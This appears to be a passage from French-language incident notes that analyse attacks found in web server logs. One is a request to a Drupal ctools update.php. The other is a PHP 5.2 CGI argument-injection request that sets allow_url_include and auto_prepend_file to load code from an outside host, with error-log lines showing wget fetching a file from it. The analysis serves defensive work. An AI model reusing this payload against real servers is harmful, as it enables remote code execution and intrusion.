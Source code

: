 * L'IP 81.17.16.111 a fait une requête sur un fichier update.php du module [ctools](https://www.drupal.org/project/ctools), faudrait peut-être voir pour le mettre à jour par la même occasion si ce n'est pas le cas ;-)

```
81.17.16.111 - - [28/Mar/2015:18:22:05 +0100] "POST /sites/all/modules/ctools/page_manager/plugins/update.php HTTP/1.1" 200 13203 "-" "Mozilla/5.0 (Windows NT 6.1; rv:21.0) Gecko/20130331 Firefox/21.0" 0
```

### exemple 2 : vulnérabilité sur PHP 5.2


Nous avons reçu 2 alertes dans la nuit concernant une attaque sur le site www.exemple.org. L'attaquant a profité de l'utilisation de php5.2 pour lancer le téléchargement d'un fichier sur un serveur distant via la commande wget (sans fichiers modifiés) mais en lançant un processus "ennemi" :

```
2001      3912  0.0  0.0  29700  4136 ?        S    01:50   0:00 /usr/sbin/httpd
```

En fouillant dans les logs au moment de l'attaque, on tombe sur cette ligne :

```
189.18.60.245 - - [20/Apr/2015:01:50:27 0200] "GET /?-d%20allow_url_include%3DOn-d%20auto_prepend_file%3Dhttp://www.krol.lt/run.txt HTTP/1.1" 200 7 "-" "Mozilla/3.0 (compatible; Indy Library)" 300
```

Et en fait, la réponse se trouve dans `error.log` :


```
[01:50:27] [error] [client 189.18.60.245] --2015-04-20 01:50:27-- http://www.krol.lt/w.txt
[01:50:27] [error] [client 189.18.60.245] Resolving www.krol.lt (www.krol.lt)...
[01:50:27] [error] [client 189.18.60.245] 5.199.171.10
[01:50:27] [error] [client 189.18.60.245] Connecting to www.krol.lt (www.krol.lt)|5.199.171.10|:80...
[01:50:27] [error] [client 189.18.60.245] connected.
[01:50:27] [error] [client 189.18.60.245] HTTP request sent, awaiting response...
[01:50:27] [error] [client 189.18.60.245] 200 OK
[01:50:27] [error] [client 189.18.60.245] Length: 29582
[01:50:27] [error] [client 189.18.60.245] (29K) [text/plain]
[01:50:27] [error] [client 189.18.60.245] Saving to: `w.txt'
[01:50:27] [error] [client 189.18.60.245]
[01:50:27] [error] [client 189.18.60.245] 0K .
[01:50:27] [error] [client 189.18.60.245] ........
[01:50:27] [error] [client 189.18.60.245] . .....
[01:50:27] [error] [client 189.18.60.245] ...
[01:50:27] [error] [client 189.18.60.245] .. ......
[01:50:27] [error] [client 189.18.60.245] .. 100%
[01:50:27] [error] [client 189.18.60.245] 171K=0.2s
[01:50:27] [error] [client 189.18.60.245]
[01:50:27] [error] [client 189.18.60.245] 2015-04-20 01:50:27 (171 KB/s) - `w.txt' saved [29582/29582]
[01:50:27] [error] [client 189.18.60.245]
```
